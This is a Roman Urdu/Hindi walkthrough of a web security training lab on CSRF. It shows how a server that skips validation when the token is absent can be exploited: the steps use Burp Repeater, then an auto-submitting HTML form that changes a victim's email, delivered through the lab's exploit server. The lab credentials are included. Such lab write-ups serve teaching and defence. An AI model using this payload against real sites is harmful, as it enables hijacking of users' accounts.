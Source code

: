 ## ✅ Lab Ka Naam:

**CSRF where token validation depends on token being present**

---

## 🎯 Goal:

Victim ka email address change karwana via CSRF attack using exploit server.

---

## 🛠️ Tools Required:

* Burp Suite (Community or Pro)
* Exploit server (jo lab ke saath diya gaya hai)

---

## 🔐 Login Credentials:

```
Username: wiener  
Password: peter
```

---

## 🧠 Samajhne Wali Baat:

* Agar CSRF token **galat ho** ⇒ server request **reject kar deta hai**
* Agar CSRF token **nahi diya jaye** ⇒ server request **accept kar leta hai**
* Yeh bug hai, aur isi ka use hum attack mein karenge

---

## 🔍 Step-by-Step Solution:

### 🟢 Step 1: Burp browser se login karo

* Login page kholo
* Login with: `wiener:peter`

---

### 🟢 Step 2: Email change karo manually

* Account settings mein jao
* “Update email” form bharo (koi bhi email e.g. `test123@hacker.com`)
* Submit karo

---

### 🟢 Step 3: Burp Proxy → HTTP history mein request dhoondo

* POST request hogi:

```
POST /my-account/change-email
```

* Body mein kuch aisa hoga:

```txt
email=test123@hacker.com&csrf=H4ck3dCsRfToKen
```

---

### 🟢 Step 4: Burp Repeater mein request bhejo

* Right-click request → Send to Repeater
* CSRF token ki value galat karo → request fail ho jaye gi
* Ab **csrf=** parameter **poora hata do**, sirf yeh bacha do:

```
email=test123@hacker.com
```

* Request bhejo → agar response 302 ya 200 aya → ✅ request accept hui

➡️ **Yehi bug hai** — server token hone par verify karta hai, lekin agar token hi nahi ho, to kuch nahi kehta.

---

### 🟢 Step 5: Exploit HTML banao

Agar Burp Pro hai, to use **Generate CSRF PoC** feature.

Agar **Community Edition** hai, to yeh HTML likho:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="csrfattack@exploit.com">
</form>
<script>
  document.forms[0].submit();
</script>
```

📌 **Note:**

* `csrf` input **bilkul bhi add na karo**
* Email unique hona chahiye (`csrfattack@exploit.com` or anything)

---

### 🟢 Step 6: Exploit Server pe paste karo

* Exploit server open karo
* “Body” section mein upar wala HTML paste karo
* Click on **“Store”**

---

### 🟢 Step 7: Test your attack

* Click “View exploit” → agar tumhara email change ho jaye to ✔️ exploit kaam kar raha hai

---

### 🟢 Step 8: Final Exploit — victim ko bhejna

* Email change karo `victim@evil.com` jaisa koi unique email
* Click **“Deliver to victim”**

➡️ Lab **solved** ho jaye ga ✅

---

## 🧠 Teri Zuban Mein Summary:

> “Server CSRF token hone par uski value verify karta hai — lekin agar hum token hi na dein to server confused ho jata hai aur email change kar deta hai bina check kiye. Isi logic ko hum ne attack mein use kiya.”

---

## 💥 Is Lab se Kya Seekha?

* Kabhi kabhi **token ki value nahi**, **token ka hona hi important hota hai**
* Agar server `csrf` ka hona required nahi karta properly, to CSRF attack possible hai
* **Validation logic** server-side pe carefully likhna chahiye
